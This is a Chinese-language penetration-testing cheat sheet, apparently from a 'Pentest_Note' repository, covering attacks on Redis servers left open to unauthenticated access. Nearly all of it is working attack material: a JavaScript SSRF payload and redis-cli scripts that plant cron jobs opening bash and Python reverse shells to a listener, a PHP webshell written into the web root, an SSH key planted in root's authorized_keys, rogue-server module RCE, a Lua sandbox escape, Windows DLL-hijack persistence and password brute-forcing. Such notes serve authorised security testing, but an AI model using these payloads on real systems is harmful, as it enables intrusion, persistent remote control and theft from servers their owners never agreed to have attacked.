  #### 测试
	>redis-cli -h 127.0.0.1 flunshall 
	192.168.0.110:6379>ping
	PONG 存在未授权访问
 #### JS打内网
	var cmd = new XMLHttpRequest();      
	cmd.open("POST", "http://127.0.0.1:6379");      
	cmd.send('flushall\r\n');             
	var cmd =new XMLHttpRequest();      
	cmd.open("POST", "http://127.0.0.1:6379");      
	cmd.send('eval \'' + 'redis.call(\"set\",\"1\",\"\\n\\n*/1 * * * * /bin/bash -i >&/dev/tcp/外网IP/5566 0>&1\\n\\n");redis.call(\"config\", \"set\", \"dir\",\"/var/spool/cron/\"); redis.call(\"config\",\"set\", \"dbfilename\", \"root\");' + '\' 0' +"\r\n");       
	var cmd =new XMLHttpRequest();      
	cmd.open("POST", "http://127.0.0.1:6379");       
	cmd.send('save\r\n');
 #### 反弹shell
	保存为sh
	echo -e "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.0.108/12138 0>&1\n\n"|redis-cli -h $1 -p $2 -x set 1
	echo -e "\n\n */1 * * * * python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.108",12138));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'\n\n"|redis-cli -h $1 -p $2 -x set 1
	redis-cli -h $1 -p $2 config set dir /var/spool/cron/
	redis-cli -h $1 -p $2 config set dbfilename root
	redis-cli -h $1 -p $2 save
	redis-cli -h $1 -p $2 quit
	执行
	>bash 1.sh 192.168.0.120 6379
![image](/assets/Pentest_Note/master/img/34.png)
![image](/assets/Pentest_Note/master/img/35.png)

 #### 写shell
	6379> config set dir /var/www/html/
	6379> config set dbfilename shell.php
	6379> set x "<?php phpinfo();?>"
	6379> save
 #### SSH
	ssh-keygen
	本地生成一对密钥
	https://github.com/JoyChou93/hackredis
	>ssh-keygen -t rsa -C "xx@xx.com"
	>(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > qq.txt
	>redis-cli -h 127.0.0.1 flunshall
	>cat qq.txt | redis-cli -h 127.0.0.1 -x set crackit
	>redis-cli -h 127.0.0.1
	6379> config set dir /root/.ssh/
	6379> config set dbfilename "authorized_keys"
	6379> save
	本地登录
	#ssh -i id_rsa root@11.11.11.11
 #### redis-rogue-getshell
	https://github.com/vulhub/redis-rogue-getshell
	需要python3.0以上
	编译
	>cd RedisModulesSDK/
	>make
	会在此目录下生成exp.so
	执行命令
	>python3 redis-master.py -r 192.168.0.120 -p 6379 -L 192.168.0.108 -P 12138 -f RedisModulesSDK/exp.so -c "cat /etc/passwd"
![image](/assets/Pentest_Note/master/img/36.png)

 #### redis-rogue-server
	https://github.com/n0b0dyCN/redis-rogue-server
	需要python3.6以上
	编译
	>cd RedisModulesSDK/exp
	>make
	执行
	>./redis-rogue-server.py --rhost 192.168.0.120 --lhost 192.168.0.108
![image](/assets/Pentest_Note/master/img/37.png)
![image](/assets/Pentest_Note/master/img/38.png)

	也可以反向shell
![image](/assets/Pentest_Note/master/img/39.png)
![image](/assets/Pentest_Note/master/img/40.png)
 #### redis在windows下的利用
	Web目录写入木马
	启动项
	系统DLL劫持(目标重启或注销)
	特定软件的DLL劫持
	覆盖快捷方式
	覆盖配置文件
	覆盖sethc等文件
	https://github.com/r35tart/RedisWriteFile
	>python3 rediswritefile.py --rhost=目标IP --rport=6379 --lhost=本机IP --lport=本地端口 --rpath="在目标保存的路径" --rfile="在目标保存的文件" --lfile="本地文件" --auth=redis密码

 #### Lua RCE
	https://github.com/QAX-A-Team/redis_lua_exploit
	修改redis_lua.py里的 host 为目标 IP
	执行返回正常，反弹shell
	>eval "tonumber('/bin/bash -i >& /dev/tcp/192.168.0.108/12345 0>&1', 8)" 0
 #### Redis漏洞利用工具
    https://github.com/yuyan-sec/RedisEXP
    windows
    >RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -c whoami
    >RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -exec -console
    linux平台
    >RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -c whoami
    >RedisExp.exe -rhost 192.168.211.130 -lhost 192.168.211.1 -so exp.so -exec -console
    文件上传
    >RedisExp.exe -rhost 192.168.211.128 -lhost 192.168.211.1 -upload -rfile 1.txt -lfile 2.txt
    写shell
    >RedisExp.exe -rhost 192.168.211.128 -shell
    Lua沙盒绕过命令执行 CVE-2022-0543
    >RedisExp.exe -rhost 192.168.211.130 -lua -console
    爆破redis密码
    >RedisExp.exe -r 192.168.211.128 -brute -pwdf ../pass.txt